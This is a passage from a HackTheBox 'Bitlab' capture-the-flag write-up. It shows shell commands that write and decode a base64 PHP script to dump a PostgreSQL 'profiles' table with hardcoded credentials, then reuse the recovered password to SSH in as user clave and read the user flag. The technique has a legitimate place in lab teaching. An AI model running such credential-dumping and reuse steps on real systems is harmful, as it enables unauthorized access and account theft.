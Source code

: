 I made a simple PHP script that dumped the ‘profiles’ database using the credentials found in the above snippet:

{% highlight bash %}
www-data@bitlab:/var/www/html/profile$ mkdir /tmp/yakuhito
mkdir /tmp/yakuhito
www-data@bitlab:/var/www/html/profile$ cd /tmp/yakuhito
cd /tmp/yakuhito
www-data@bitlab:/tmp/yakuhito$ echo PD9waHAKJGRiX2Nvbm5lY3Rpb24gPSBwZ19jb25uZWN0KCJob3N0PWxvY2FsaG9zdCBkYm5hbWU9cHJvZmlsZXMgdXNlcj1wcm9maWxlcyBwYXNzd29yZD1wcm9maWxlcyIpOwokcmVzdWx0ID0gcGdfcXVlcnkoJGRiX2Nvbm5lY3Rpb24sICJTRUxFQ1QgKiBGUk9NIHByb2ZpbGVzIik7CmVjaG8gdmFyX2R1bXAocGdfZmV0Y2hfYWxsKCRyZXN1bHQpKTsKcGdfY2xvc2UoJGRiX2Nvbm5lY3Rpb24pOwo/Pgo= | base64 -d > a.php
<2UoJGRiX2Nvbm5lY3Rpb24pOwo/Pgo= | base64 -d > a.php
www-data@bitlab:/tmp/yakuhito$ cat a.php
cat a.php
<?php
$db_connection = pg_connect("host=localhost dbname=profiles user=profiles password=profiles");
$result = pg_query($db_connection, "SELECT * FROM profiles");
echo var_dump(pg_fetch_all($result));
pg_close($db_connection);
?>
www-data@bitlab:/tmp/yakuhito$ php a.php
php a.php
array(1) {
  [0]=>
  array(3) {
    ["id"]=>
    string(1) "1"
    ["username"]=>
    string(5) "clave"
    ["password"]=>
    string(22) "c3NoLXN0cjBuZy1wQHNz=="
  }
}
www-data@bitlab:/tmp/yakuhito$

{% endhighlight %}

The base64 sctring decodes to ‘ssh-str0ng-p@ss’, however, the password for ‘clave’ is the encoded string (‘c3NoLXN0cjBuZy1wQHNz==’):

{% highlight bash %}
root@fury-battlestation:~/htb/blog/bitlab# ssh clave@bitlab.htb
clave@bitlab.htb;s password: 
Last login: Thu Aug  8 14:40:09 2019
clave@bitlab:~$ wc -c ~/user.txt
33 /home/clave/user.txt
clave@bitlab:~$

{% endhighlight %}

The user proof starts with ‘1e’ 😉

## Privesc – The Intended Method
